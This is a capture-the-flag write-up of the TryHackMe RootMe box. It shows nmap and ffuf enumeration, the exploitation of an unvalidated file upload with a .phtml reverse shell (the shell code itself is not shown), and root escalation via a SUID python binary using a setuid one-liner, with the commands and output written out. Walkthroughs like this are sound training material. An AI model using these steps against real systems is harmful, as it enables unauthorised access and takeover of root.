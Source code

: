 ### Overview

this is a quick writeup, explaining how we got inside rRootMe machine from tryhackme.
Target Informations

### External Enumeration

Port Scaning i’ll be using nmap as regular:
```python
 nmap -v -sC -sV -oN nmap/nmap_tcp_simple 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Directory Brute Forcing

```python
kyle@local:~/rrootme.htb$ ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```

panel and uploads Directories seems interstings


### File Upload Vulnerability (Direct file upload)

visiting uploads folder, we get a Directory listing, that let us see what the folder contain, well its empty for now LOL


![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/1.png)


also the Panel directory has an Upload function


![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/2.png)


the server does not validate the type of files being uploaded (phtml at least, maybe other extentions too), therefor we can upload our malicious file to get a code execution on the server.

i’ll be uploading a reverse shell, with a .phtml extention

sounds like the file has been uploaded


![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/3.png)


and we successfully got a reverse shell

### Internal Enumeration

Getting a Full interactive shell

lets 1st Upgrade to a full interactive shell with python pty module

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

### Binary Files with SUID Permission

while searching for suid files, we got a good list, and python is a one of them,


```python
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd

www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

### Privelege Escalation

we can easly escalate our priveleges, GTFOBins got a good set of priv escalation methods we can use.

```python
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cat /root/root.txt
THM{REDACTED}
```


